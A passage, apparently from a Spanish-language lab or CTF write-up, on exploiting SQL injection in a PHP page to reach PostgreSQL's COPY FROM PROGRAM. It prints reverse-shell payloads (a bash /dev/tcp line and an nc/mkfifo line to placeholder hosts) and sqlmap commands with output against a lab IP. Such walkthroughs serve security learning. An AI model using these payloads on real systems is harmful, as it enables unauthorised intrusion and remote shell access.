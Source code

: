 	```
Investigando un poco postgreSQL damos con el vector de ataque correcto: **COPY TO/FROM PROGRAM**
PostgreSQL tiene una función que permite ejecutar programas del sistema operativo usando el comando COPY. 
Esta es una característica potente que, si se puede abusar de ella, permite ejecutar programas como un reverse shell. 
Esto se puede lograr mediante una instrucción de SQL similar a esta:
```
COPY commandexec FROM PROGRAM '/bin/bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1';
```
La funcionalidad de COPY FROM PROGRAM podría usarse para ejecutar comandos de shell mas o menos de la siguiente forma:
```
CREATE TABLE shell(output text);
COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f';
```
PostgreSQL solo permite COPY FROM PROGRAM en contexto de tabla.
**COPY FROM PROGRAM **está diseñado para insertar datos en una tabla desde la salida de un programa del sistema.
Para aprovechar esto, necesitamos una tabla donde se pueda almacenar el "output" del programa ejecutado.
Si intentamos ejecutar el comando directamente sin asociarlo a una tabla, fallaría.
Intentamos escribir archivos en directorios del sistema (/tmp, /var/www/html, etc.), pero no llegamos a nada.
 Esto indica que no tienemos permisos de escritura en esos lugares.
Sin embargo, podemos ejecutar comandos SQL avanzados (CREATE TABLE, COPY FROM PROGRAM). 
Esto sugiere que el usuario de la base de datos tiene suficientes privilegios dentro de PostgreSQL para crear y manipular tablas, 
pero no necesariamente para escribir en el sistema de archivos directamente.
``` 
sqlmap -u "http://192.168.193.49/class.php" --data="weight=70&height=174" -p height --sql-query="CREATE TABLE test_table (id SERIAL PRIMARY KEY, data TEXT);"
sqlmap -u "http://192.168.193.49/class.php" --data="weight=70&height=174" -p height --sql-query="INSERT INTO test_table (data) VALUES ('Esto es una prueba');"
sqlmap -u "http://192.168.193.49/class.php" --data="weight=70&height=174" -p height --sql-query="SELECT * FROM test_table;"
[02:11:10] [INFO] fetching SQL SELECT statement query output: 'SELECT * FROM test_table'
[02:11:10] [INFO] you did not provide the fields in your query. sqlmap will retrieve the column names itself
[02:11:10] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) columns
[02:11:10] [INFO] fetching current database
[02:11:10] [INFO] resumed: 'public'
[02:11:10] [WARNING] on PostgreSQL you'll need to use schema names for enumeration as the counterpart to database names on other DBMSes
[02:11:10] [INFO] fetching columns for table 'test_table' in database 'public'
[02:11:12] [INFO] retrieved: 'data'
[02:11:13] [INFO] retrieved: 'text'
[02:11:14] [INFO] retrieved: 'id'
[02:11:15] [INFO] retrieved: 'int4'
[02:11:15] [INFO] the query with expanded column name(s) is: SELECT "data", id FROM test_table
[02:11:17] [INFO] retrieved: 'Esto es una prueba'
[02:11:18] [INFO] retrieved: '1'
SELECT * FROM test_table: 'Esto es una prueba,1'
...

sqlmap -u "http://192.168.193.49/class.php" --data="weight=70&height=174" -p height --sql-query="SELECT tablename FROM pg_tables WHERE schemaname='public';"
...
SELECT tablename FROM pg_tables WHERE schemaname='public' [2]:
[*] test_table
[*] users
...

```